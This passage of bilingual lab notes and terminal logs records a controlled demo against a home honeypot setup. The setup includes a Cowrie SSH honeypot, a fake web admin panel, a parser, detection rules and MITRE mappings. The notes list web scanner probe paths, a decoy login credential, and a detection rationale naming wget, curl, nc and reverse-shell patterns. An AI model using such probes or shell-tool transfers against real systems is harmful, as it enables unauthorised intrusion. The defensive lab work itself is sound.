    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

[+] Generating timeline and final reports...
/opt/deception-lab/parser/generate_timeline.py:93: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  lines.append(f"Generated at: {datetime.utcnow().isoformat()}Z")
[+] Timeline written to: /opt/deception-lab/reports/timeline.md
[+] Markdown report written to: /opt/deception-lab/reports/report.md
[+] JSON report written to: /opt/deception-lab/reports/report.json

[+] Report files:
total 76K
drwxrwxr-x  2 lss lss 4.0K May 22 03:11 .
drwxrwxr-x 11 lss lss 4.0K May 26 01:16 ..
-rw-rw-r--  1 lss lss 2.4K May 26 03:45 mapping_report.md
-rw-rw-r--  1 lss lss  13K May 26 03:45 report.json
-rw-rw-r--  1 lss lss 5.9K May 26 03:45 report.md
-rw-rw-r--  1 lss lss  38K May 26 03:45 timeline.md

[+] Report generation completed.
Main report: /opt/deception-lab/reports/report.md
Timeline:    /opt/deception-lab/reports/timeline.md
JSON report: /opt/deception-lab/reports/report.json

[6] Quick verification
[+] Event files:
total 116K
-rw-rw-r-- 1 lss lss 3.1K May 26 03:45 attack_coverage.json
-rw-rw-r-- 1 lss lss  39K May 26 03:45 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 03:45 engage_coverage.json
-rw-rw-r-- 1 lss lss  55K May 26 03:45 events.jsonl
-rw-rw-r-- 1 lss lss  758 May 26 03:45 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 03:45 mapping_summary.json

[+] Current event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 5,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 6,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 31
  },
  "detections_by_severity": {
    "high": 22,
    "medium": 39
  },
  "events_by_source": {
    "cowrie": 21,
    "fake-web": 137
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 6,
    "ssh_login_failed": 5,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 19,
    "web_request": 107
  },
  "generated_at": "2026-05-25T19:45:27.518869+00:00",
  "total_detections": 61,
  "total_events": 158
}

============================================================
[DONE] Demo attack flow completed.
============================================================
[+] Refresh Streamlit Dashboard:
    http://127.0.0.1:8501

[+] Key output files:
    /opt/deception-lab/data/events/events.jsonl
    /opt/deception-lab/data/events/detections.jsonl
    /opt/deception-lab/data/events/events_summary.json
    /opt/deception-lab/data/events/mapping_summary.json
    /opt/deception-lab/data/events/attack_coverage.json
    /opt/deception-lab/data/events/engage_coverage.json
    /opt/deception-lab/reports/report.md
    /opt/deception-lab/reports/report.json
    /opt/deception-lab/reports/timeline.md
============================================================
lss@lss:/opt/deception-lab $

------------------------------------------------------------
確認：新版 demo_attack.sh 執行成功，Phase B2 可以正式結案。
重點結果如下：
  Total events: 158
  Total detections: 61
  ATT&CK mapping coverage: 100.0%
  Engage mapping coverage: 100.0%

成功產生與更新的檔案包括：
  /opt/deception-lab/data/events/events.jsonl
  /opt/deception-lab/data/events/detections.jsonl
  /opt/deception-lab/data/events/events_summary.json
  /opt/deception-lab/data/events/mapping_summary.json
  /opt/deception-lab/data/events/attack_coverage.json
  /opt/deception-lab/data/events/engage_coverage.json
  /opt/deception-lab/reports/report.md
  /opt/deception-lab/reports/report.json
  /opt/deception-lab/reports/timeline.md
  /opt/deception-lab/reports/mapping_report.md

你的偵測統計也完整：
  SSH_HONEYCREDENTIAL_LOGIN: 1
  SSH_HONEYFILE_ACCESS: 2
  SSH_LOGIN_FAILED: 5
  SSH_RECON_COMMAND: 3
  SSH_TOOL_TRANSFER_COMMAND: 2
  WEB_HONEYCREDENTIAL_USED: 6
  WEB_HONEYFILE_ACCESS: 11
  WEB_SCANNER_PROBE: 31

這代表 controlled demo 已經成功涵蓋：
  Fake Web Admin 存取
  Web honeycredential 使用
  Honeyfile / scanner-like path 存取
  Cowrie SSH login attempt
  Parser 更新
  Detection rules 觸發
  ATT&CK mapping 更新
  Engage mapping 更新
  Timeline / report 產生
  Dashboard 可刷新顯示

Permission denied 仍然是合理結果，因為這次 SSH 使用的是：
admin / Spring2026!
它觸發的是 SSH_LOGIN_FAILED，不是 SSH_HONEYCREDENTIAL_LOGIN。你的資料裡已經有 SSH_HONEYCREDENTIAL_LOGIN: 1，表示之前或其他流程已成功觸發過 honeycredential login。

唯一的小提醒是這個 warning：
DeprecationWarning: datetime.datetime.utcnow() is deprecated 它不影響功能，只是 Python 版本提醒。之後可以把 parser/generate_timeline.py 的：

總結：其中 Attack Storyline 會把目前的 158 筆 events 與 61 筆 detections 串成可展示的攻擊敘事；Demo Mode 則把你的 demo 操作流程和即時統計放在同一頁，方便口頭展示。
```
- 目前狀態判定：
```
Phase B1 Streamlit Dashboard MVP: PASS
Phase B1-deploy systemd auto-start: PASS
Phase B2 controlled demo attack flow: PASS
Phase B2 parser/report integration: PASS
Phase B2 cleanup needed: remove two obsolete placeholder commands
```
### 確認：新版 demo_attack.sh 執行成功，Phase B2 可以正式結案。
- 重點結果如下：
```
Total events: 158
Total detections: 61
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

# 成功產生與更新的檔案包括：
/opt/deception-lab/data/events/events.jsonl
/opt/deception-lab/data/events/detections.jsonl
/opt/deception-lab/data/events/events_summary.json
/opt/deception-lab/data/events/mapping_summary.json
/opt/deception-lab/data/events/attack_coverage.json
/opt/deception-lab/data/events/engage_coverage.json
/opt/deception-lab/reports/report.md
/opt/deception-lab/reports/report.json
/opt/deception-lab/reports/timeline.md
/opt/deception-lab/reports/mapping_report.md

# 你的偵測統計也完整：
SSH_HONEYCREDENTIAL_LOGIN: 1
SSH_HONEYFILE_ACCESS: 2
SSH_LOGIN_FAILED: 5
SSH_RECON_COMMAND: 3
SSH_TOOL_TRANSFER_COMMAND: 2
WEB_HONEYCREDENTIAL_USED: 6
WEB_HONEYFILE_ACCESS: 11
WEB_SCANNER_PROBE: 31

# 這代表 controlled demo 已經成功涵蓋：
Fake Web Admin 存取
Web honeycredential 使用
Honeyfile / scanner-like path 存取
Cowrie SSH login attempt
Parser 更新
Detection rules 觸發
ATT&CK mapping 更新
Engage mapping 更新
Timeline / report 產生
Dashboard 可刷新顯示

Permission denied 仍然是合理結果，因為這次 SSH 使用的是：admin / Spring2026!

它觸發的是 SSH_LOGIN_FAILED，不是 SSH_HONEYCREDENTIAL_LOGIN。你的資料裡已經有 SSH_HONEYCREDENTIAL_LOGIN: 1，表示之前或其他流程已成功觸發過 honeycredential login。
```

## 驗證與展示流程
Phase B2 的展示重點不是「Dashboard 長什麼樣」，而是證明你已經有一條 可重現、可驗證、可解釋的 controlled demo attack flow：
### 1. Phase B2 驗證目標
- Phase B2 要驗證 5 件事：
```
1. demo_attack.sh 可以穩定執行
2. Web / SSH deception surfaces 會產生事件
3. Parser 能把 logs 轉成 events.jsonl / detections.jsonl
4. Mapping analyzer 能產生 ATT&CK / Engage coverage
5. Reports 與 Dashboard 能呈現結果

# 你目前已經驗證過：
Total events: 158
Total detections: 61
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%
```
### 2. Demo 前檢查
```
展示前先確認服務都在跑：
cd /opt/deception-lab

----------------------------------
sudo docker compose ps
執行結果：
lss@lss:/opt/deception-lab $ sudo docker compose ps
NAME                 IMAGE                    COMMAND                  SERVICE    CREATED      STATUS       PORTS
deception-cowrie     cowrie/cowrie:latest     "/cowrie/cowrie-env/…"   cowrie     2 days ago   Up 6 hours   0.0.0.0:2222->2222/tcp, [::]:2222->2222/tcp, 2223/tcp
deception-fake-web   deception-lab-fake-web   "gunicorn --bind 0.0…"   fake-web   2 days ago   Up 6 hours   0.0.0.0:8080->8080/tcp, [::]:8080->8080/tcp

----------------------------------
sudo systemctl status deception-dashboard.service --no-pager
執行結果：
lss@lss:/opt/deception-lab $ sudo systemctl status deception-dashboard.service --no-pager
● deception-dashboard.service - Deception Lab Streamlit Dashboard
     Loaded: loaded (/etc/systemd/system/deception-dashboard.service; enabled; preset: enabled)
     Active: active (running) since Tue 2026-05-26 02:43:07 CST; 5h 57min ago
 Invocation: 0869fe85669241ac8789c9ac600eb06d
   Main PID: 1216 (streamlit)
      Tasks: 12 (limit: 9621)
        CPU: 38.292s
     CGroup: /system.slice/deception-dashboard.service
             └─1216 /opt/deception-lab/.venv/bin/python3 /opt/deception-lab/.venv/bin/streamlit run /opt/deception-l…

May 26 03:39:51 lss streamlit[1216]:   File "pyarrow/array.pxi", line 390, in pyarrow.lib.array
May 26 03:39:51 lss streamlit[1216]:   File "pyarrow/array.pxi", line 91, in pyarrow.lib._ndarray_to_array
May 26 03:39:51 lss streamlit[1216]:   File "pyarrow/error.pxi", line 92, in pyarrow.lib.check_status
May 26 03:39:51 lss streamlit[1216]: pyarrow.lib.ArrowInvalid: ("Could not convert 'MITRE Engage' with type …object')
May 26 03:39:55 lss streamlit[1216]: 2026-05-26 03:39:55.074 Please replace `use_container_width` with `width`.
May 26 03:39:55 lss streamlit[1216]: `use_container_width` will be removed after 2025-12-31.
May 26 03:39:55 lss streamlit[1216]: For `use_container_width=True`, use `width='stretch'`. For `use_contain…ntent'`.
May 26 03:39:55 lss streamlit[1216]: 2026-05-26 03:39:55.079 Please replace `use_container_width` with `width`.
May 26 03:39:55 lss streamlit[1216]: `use_container_width` will be removed after 2025-12-31.
May 26 03:39:55 lss streamlit[1216]: For `use_container_width=True`, use `width='stretch'`. For `use_contain…ntent'`.
Hint: Some lines were ellipsized, use -l to show in full.

----------------------------------
ss -lntp | grep -E "2222|8080|8501"
執行結果：
lss@lss:/opt/deception-lab $ ss -lntp | grep -E "2222|8080|8501"
LISTEN 0      2048         0.0.0.0:8501      0.0.0.0:*    users:(("streamlit",pid=1216,fd=6))
LISTEN 0      4096         0.0.0.0:8080      0.0.0.0:*
LISTEN 0      4096         0.0.0.0:2222      0.0.0.0:*
LISTEN 0      4096            [::]:8080         [::]:*
LISTEN 0      4096            [::]:2222         [::]:*

# 預期要看到：
2222  Cowrie SSH honeypot
8080  Fake Web Admin
8501  Streamlit Dashboard

# 再開 Dashboard：
http://192.168.1.164:8501
展示時可以先說：
目前系統由 Raspberry Pi 5 單機運行，包含 Cowrie SSH honeypot、Fake Web Admin、事件 parser、detection rules、MITRE ATT&CK / Engage mapping，以及 Streamlit Dashboard。
```


### 3. Phase B2 操作流程
- Step 1：記錄 demo 前基準值
```
cd /opt/deception-lab

----------------------------------
wc -l data/events/events.jsonl
執行結果：
lss@lss:/opt/deception-lab $ wc -l data/events/events.jsonl
189 data/events/events.jsonl

----------------------------------
wc -l data/events/detections.jsonl
執行結果：
lss@lss:/opt/deception-lab $ wc -l data/events/detections.jsonl
76 data/events/detections.jsonl

----------------------------------
cat data/events/events_summary.json
執行結果：
lss@lss:/opt/deception-lab $ cat data/events/events_summary.json
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 7,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 43
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 53
  },
  "events_by_source": {
    "cowrie": 25,
    "fake-web": 164
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 8,
    "ssh_login_failed": 7,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 22,
    "web_request": 131
  },
  "generated_at": "2026-05-26T00:52:51.052386+00:00",
  "total_detections": 76,
  "total_events": 189

# 你可以口頭說明：
這是 demo 前的事件與偵測基準值。接下來會透過 controlled demo script 產生新的攻擊互動，再重新收集 logs、解析事件、觸發 detection rules 並更新 coverage。
```
- Step 2：執行 controlled demo attack flow (受控演示攻擊流程)
```
# 在 Pi 上執行：嘗試攻擊本機
cd /opt/deception-lab

----------------------------------
/opt/deception-lab/scripts/demo_attack.sh 127.0.0.1
執行結果：
lss@lss:/opt/deception-lab $ /opt/deception-lab/scripts/demo_attack.sh 127.0.0.1
============================================================
 Deception Lab Controlled Demo Attack
============================================================
[*] Target IP:        127.0.0.1
[*] Fake Web Admin:   http://127.0.0.1:8080
[*] Cowrie SSH Port:  2222
[*] Dashboard:        http://127.0.0.1:8501
============================================================

[0] Pre-flight checks
[+] Pre-flight checks completed.

[1] Access fake web admin
[+] GET / -> HTTP 302
[+] GET /login -> HTTP 200

[2] Submit fake login attempt / honeycredential
[+] POST /login admin credential -> HTTP 200

[3] Touch honeyfile-like and scanner-like paths
[+] GET /backup.zip -> HTTP 404
[+] GET /secrets.txt -> HTTP 404
[+] GET /.env -> HTTP 404
[+] GET /admin -> HTTP 302
[+] GET /wp-admin -> HTTP 404
[+] GET /phpmyadmin -> HTTP 404
[+] GET /server-status -> HTTP 404
[+] GET /actuator/env -> HTTP 404

[4] Trigger controlled Cowrie SSH login attempt
Warning: Permanently added '[127.0.0.1]:2222' (ED25519) to the list of known hosts.
Permission denied, please try again.
[+] SSH attempt completed.
[i] Permission denied is acceptable if Cowrie records failed login behavior.

[5] Regenerate parser/report outputs
[+] Running parser...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260526T135647Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 124K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  371 May 26 21:56 collection_summary.txt
-rw-rw-r-- 1 lss lss  44K May 26 21:56 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 21:56 source_manifest.json
-rw-rw-r-- 1 lss lss  48K May 26 21:56 web_access.jsonl
-rw-rw-r-- 1 lss lss 9.4K May 26 21:56 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260526T135647Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 44K
  lines: 342
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 48K
  lines: 164
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 12K
  lines: 24
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 217
Total detections: 90

[+] Event output files:
total 164K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 21:55 attack_coverage.json
-rw-rw-r-- 1 lss lss  57K May 26 21:56 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 21:55 engage_coverage.json
-rw-rw-r-- 1 lss lss  74K May 26 21:56 events.jsonl
-rw-rw-r-- 1 lss lss  759 May 26 21:56 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:55 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 9,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 55
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 67
  },
  "events_by_source": {
    "cowrie": 29,
    "fake-web": 188
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 10,
    "ssh_login_failed": 9,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 24,
    "web_request": 153
  },
  "generated_at": "2026-05-26T13:56:47.847267+00:00",
  "total_detections": 90,
  "total_events": 217
}
[+] Running MITRE mapping...
[+] Running parser first to refresh detections...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260526T135647Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 124K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  371 May 26 21:56 collection_summary.txt
-rw-rw-r-- 1 lss lss  44K May 26 21:56 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 21:56 source_manifest.json
-rw-rw-r-- 1 lss lss  48K May 26 21:56 web_access.jsonl
-rw-rw-r-- 1 lss lss 9.4K May 26 21:56 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260526T135647Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 44K
  lines: 342
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 48K
  lines: 164
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 12K
  lines: 24
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 217
Total detections: 90

[+] Event output files:
total 164K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 21:55 attack_coverage.json
-rw-rw-r-- 1 lss lss  57K May 26 21:56 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 21:55 engage_coverage.json
-rw-rw-r-- 1 lss lss  74K May 26 21:56 events.jsonl
-rw-rw-r-- 1 lss lss  759 May 26 21:56 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:55 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 9,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 55
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 67
  },
  "events_by_source": {
    "cowrie": 29,
    "fake-web": 188
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 10,
    "ssh_login_failed": 9,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 24,
    "web_request": 153
  },
  "generated_at": "2026-05-26T13:56:48.061316+00:00",
  "total_detections": 90,
  "total_events": 217
}
[+] Running MITRE mapping analyzer...
[+] Mapping analysis completed.
[+] Mapping summary: /opt/deception-lab/data/events/mapping_summary.json
[+] ATT&CK coverage: /opt/deception-lab/data/events/attack_coverage.json
[+] Engage coverage: /opt/deception-lab/data/events/engage_coverage.json

Defined detection rules: 8
Total detections: 90
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

[+] Generating mapping Markdown report...
[+] Mapping markdown report written to: /opt/deception-lab/reports/mapping_report.md

[+] Mapping output files:
-rw-rw-r-- 1 lss lss 3.1K May 26 21:56 attack_coverage.json
-rw-rw-r-- 1 lss lss 2.3K May 26 21:56 engage_coverage.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:56 mapping_summary.json

[+] Mapping report:
-rw-rw-r-- 1 lss lss 2.4K May 26 21:56 /opt/deception-lab/reports/mapping_report.md

[+] Mapping summary:
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 9,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 55
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-26T13:56:48.138692+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 9,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 7,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 55,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 90,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

[+] Generating final reports...
[+] Refreshing parser and mapping outputs...
[+] Running parser first to refresh detections...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260526T135648Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 124K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  371 May 26 21:56 collection_summary.txt
-rw-rw-r-- 1 lss lss  44K May 26 21:56 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 21:56 source_manifest.json
-rw-rw-r-- 1 lss lss  48K May 26 21:56 web_access.jsonl
-rw-rw-r-- 1 lss lss 9.4K May 26 21:56 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260526T135648Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 44K
  lines: 342
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 48K
  lines: 164
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 12K
  lines: 24
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 217
Total detections: 90

[+] Event output files:
total 164K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 21:56 attack_coverage.json
-rw-rw-r-- 1 lss lss  57K May 26 21:56 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 21:56 engage_coverage.json
-rw-rw-r-- 1 lss lss  74K May 26 21:56 events.jsonl
-rw-rw-r-- 1 lss lss  759 May 26 21:56 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:56 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 9,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 55
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 67
  },
  "events_by_source": {
    "cowrie": 29,
    "fake-web": 188
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 10,
    "ssh_login_failed": 9,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 24,
    "web_request": 153
  },
  "generated_at": "2026-05-26T13:56:48.374766+00:00",
  "total_detections": 90,
  "total_events": 217
}
[+] Running MITRE mapping analyzer...
[+] Mapping analysis completed.
[+] Mapping summary: /opt/deception-lab/data/events/mapping_summary.json
[+] ATT&CK coverage: /opt/deception-lab/data/events/attack_coverage.json
[+] Engage coverage: /opt/deception-lab/data/events/engage_coverage.json

Defined detection rules: 8
Total detections: 90
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

[+] Generating mapping Markdown report...
[+] Mapping markdown report written to: /opt/deception-lab/reports/mapping_report.md

[+] Mapping output files:
-rw-rw-r-- 1 lss lss 3.1K May 26 21:56 attack_coverage.json
